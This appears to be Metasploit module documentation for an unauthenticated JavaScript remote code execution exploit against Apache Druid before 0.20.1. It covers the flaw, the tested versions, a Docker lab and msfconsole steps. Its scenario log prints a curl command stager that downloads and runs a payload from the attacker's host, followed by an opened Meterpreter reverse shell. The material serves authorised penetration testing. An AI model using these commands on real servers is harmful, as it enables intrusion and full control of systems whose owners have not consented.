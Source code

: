 ## Vulnerable Application

Apache Druid versions prior to `v0.20.1`

### Description

Apache Druid includes the ability to execute user-provided JavaScript code embedded in
various types of requests; however, that feature is disabled by default.
          
In Druid versions prior to `0.20.1`, an authenticated user can send a specially-crafted request
that both enables the JavaScript code-execution feature and executes the supplied code all
at once, allowing for code execution on the server with the privileges of the Druid Server process.
More critically, authentication is not enabled in Apache Druid by default.

The issue has been fixed in Apache Druid `v0.20.1`

This module has been tested successfully against the following versions:


Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

A Docker container is available [here](https://hub.docker.com/r/fokkodriesprong/docker-druid)

To setup and run:

`docker pull fokkodriesprong/docker-druid`
`docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid`

For a manual setup:
* Download a vulnerable version of Apache Druid from [here](https://archive.apache.org/dist/druid/)
* Extract the downloaded archive
* Ensure a supported version of Java is installed on the system
* Start Apache Druid: `bin/start-nano-quickstart`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_druid_js_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `set lport/srvport <ip>` if necessary
1. Do: `run`
1. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### CHECKCMD

You can set a customize command to check and get command exec result respond.
Default is "id"


## Scenarios

### Apache Druid 0.20.0-iap4.1 on SaltStack Salt 3002.2 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 > use exploit/linux/http/apache_druid_js_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > set rhosts 10.100.70.2
rhosts => 10.100.70.2
msf6 exploit(linux/http/apache_druid_js_rce) > set rport 8888
rport => 8888
msf6 exploit(linux/http/apache_druid_js_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8888             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   VHOST                      no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > run

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Using URL: http://0.0.0.0:8080/NCId0EEi0G9
[*] Local IP: http://10.100.70.1:8080/NCId0EEi0G9
[*] Generated command stager: ["curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU"]
[*] Executing command /bin/bash`@~-c`@~curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU ......
[*] Client 10.100.70.2 (curl/7.58.0) requested /NCId0EEi0G9
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 10.100.70.2
[*] Meterpreter session 2 opened (10.100.70.1:4444 -> 10.100.70.2:59996) at 2021-03-31 10:56:03 +0800
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
